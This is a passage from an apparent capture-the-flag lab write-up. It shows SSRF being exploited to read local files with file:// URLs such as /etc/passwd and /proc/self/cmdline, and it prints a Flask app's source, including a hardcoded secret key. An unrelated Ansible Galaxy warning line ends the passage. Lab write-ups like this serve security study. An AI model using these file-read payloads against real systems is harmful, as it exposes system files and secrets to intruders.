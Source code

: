 ### PoC - SSRF

First, I tried a classic: `file:///etc/passwd`. And guess what? It worked!

![img](/assets/img/Intuition/13.webp)

Next, I tried `file:///proc/self/cmdline`, which shows the command line arguments of the currently running process. This is a handy way to get a glimpse of what's going on under the hood

![img](/assets/img/Intuition/14.webp)

Next, I went for `file:///app/code/app.py`

```python
from flask import Flask, request, redirect from blueprints.index.index import main_bp from blueprints.report.report
import report_bp from blueprints.auth.auth import auth_bp from blueprints.dashboard.dashboard import dashboard_bp
app = Flask(__name__) app.secret_key = "7ASS7ADA8RF3FD7" app.config['SERVER_NAME'] = 'comprezzor.htb'
app.config['MAX_CONTENT_LENGTH'] = 5 * 1024 * 1024 # Limit file size to 5MB ALLOWED_EXTENSIONS = {'txt','pdf', 'docx'} # Add more allowed file extensions if needed app.register_blueprint(main_bp)
app.register_blueprint(report_bp, subdomain='report') app.register_blueprint(auth_bp, subdomain='auth')
app.register_blueprint(dashboard_bp, subdomain='dashboard') if __name__ == '__main__': app.run(debug=False, host="0.0.0.0", port=80)
```

The code also shows the structure of the application

```text
 file:///app/code/blueprints/index/index.py
 file:///app/code/blueprints/report/report.py
 file:///app/code/blueprints/auth/auth.py
 file:///app/code/blueprints/dashboard/dashboard.py
```


[WARNING]: - root.tar.gz was NOT installed successfully: Unknown error when attempting to call Galaxy at